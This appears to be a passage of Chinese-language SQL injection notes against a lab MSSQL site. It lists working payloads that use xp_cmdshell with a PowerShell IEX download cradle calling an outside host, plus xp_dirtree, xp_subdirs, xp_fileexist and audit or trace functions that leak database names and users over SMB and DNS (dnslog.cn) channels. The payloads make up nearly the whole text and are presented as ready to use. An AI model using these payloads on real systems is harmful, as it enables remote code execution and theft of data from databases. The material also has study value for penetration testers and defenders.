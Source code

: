 ```
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(8000);SET @a=db_name();exec('master..xp_cmdshell "powershell IEX (new-object net.webclient).downloadstring(''http://192.168.172.1:8888?data='%2b @a %2b''')"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(8000);SET @a=(select top 1 name from sys.databases);exec('master..xp_cmdshell "powershell IEX (new-object net.webclient).downloadstring(''http://192.168.172.1:8888?data='%2b @a %2b''')"')--
```

### SMB数据外带

利用xp_subdirs,xp_dirtree,xp_fileexist使用unc路径判断文件发起请求带出数据

```
tail -f /var/log/samba/log.smbd | grep "failed"
```

```
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=db_name();exec('master..xp_subdirs "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 name from sys.databases);exec('master..xp_subdirs "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=(select user);exec('master..xp_subdirs "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=(select user);exec('master..xp_fileexist "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 name from sys.databases where database_id=7);exec('master..xp_fileexist "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=(select top 1 name from sys.databases where database_id=1);exec('master..xp_dirtree "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
http://192.168.172.140/less-1.asp?id=1';declare @a varchar(1024);set @a=(select user);exec('master..xp_fileexist "//'%2B'192.168.172.130\\'%2b@a%2b'.txt"')--
```

### 不存在堆叠注入时使用数据外带

dnslog

```
http://192.168.172.140/less-1.asp?id=1' and exists(select * from fn_xe_file_target_read_file('C:*.xls','\\'+(select user)+'.7wb9ur.dnslog.cn\1.txt',null,null))--
http://192.168.172.140/less-1.asp?id=1' and exists(select * from fn_get_audit_file('\\'%2b(select db_name())%2b'.gge9i3.dnslog.cn\123.txt',default,default))--
http://192.168.172.140/less-1.asp?id=1' and exists(select * from fn_trace_gettable('\\'%2b(select db_name())%2b'.g9f6y2.dnslog.cn\1.txt',default))--
```

smb

```
http://192.168.172.140/less-1.asp?id=1' and exists(select * from fn_get_audit_file('\\192.168.172.130\'%2b(select db_name())%2b'.txt',default,default))--
```

